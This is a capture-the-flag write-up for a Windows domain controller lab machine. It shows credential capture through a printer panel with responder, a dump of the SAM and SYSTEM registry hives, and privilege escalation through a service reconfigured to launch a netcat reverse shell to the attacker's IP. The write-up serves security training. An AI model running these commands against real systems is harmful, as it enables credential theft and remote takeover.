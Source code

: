 # Return

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.241 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:24 EDT
Nmap scan report for 10.129.95.241
Host is up (0.0073s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49698/tcp open  unknown
```

### SMB Enum

`enum4linux` returned nothong of interest with both null and guest credentials.&#x20;

### LDAP

`ldapsearch` returns nothing because we have no credentials.

### HTTP --> Printer Creds

There is a HTTP port open, and when viewed, it shows a Printer Admin Panel:

<figure><img src="../../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

When we view the settings, this is what we see:

<figure><img src="../../../.gitbook/assets/image (31) (7) (1).png" alt=""><figcaption></figcaption></figure>

This looks poisanable since we can control the server address. As such, I started `responder`.&#x20;

```bash
$ sudo responder -I tun0
LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have some credentials. We can use these to login with `evil-winrm`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### SeBackupPrivilege Fail

When we check our privileges, we see that we have a lot:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

With this, we can save the `system` and `sam` files, then dump the hashes with `secretsdump.py`.&#x20;

```
reg save hklm\sam c:\users\svc-printer\sam
reg save hklm\system c:\users\svc-printer\system
download sam
download system
```

Afterwards, we can dump hashes:

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

However, when trying to pass the hash, it seems that this doesn't work.

### Services Exploit

When we check which groups we are part of in the machine, we see that `svc-printer` is part of Server Operators.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We can also check the services running with `services`.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Since we have privileges over some of the services, we can follow this article online to execute a reverse shell via `nc.exe` as `SYSTEM`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

However, it seems that although we have privileges over these services, we cannot restart them for some reason. So we need to find a service that is currently stopped, then change its configuration and start it.&#x20;

Again, we fail in this aspect because we don't have access to the Service Control Manager to view what we can control. So in this case, I used a writeup and saw that they used the VSS service to do the exploit.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query VSS

SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

I wasn't too sure how they got to using this. Anyways, we can configure it like so:

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Windows\system32\cmd.exe /c C:\users\svc-printer\documents\nc.exe -e cmd.exe 10.10.14.13 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

This would create a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>
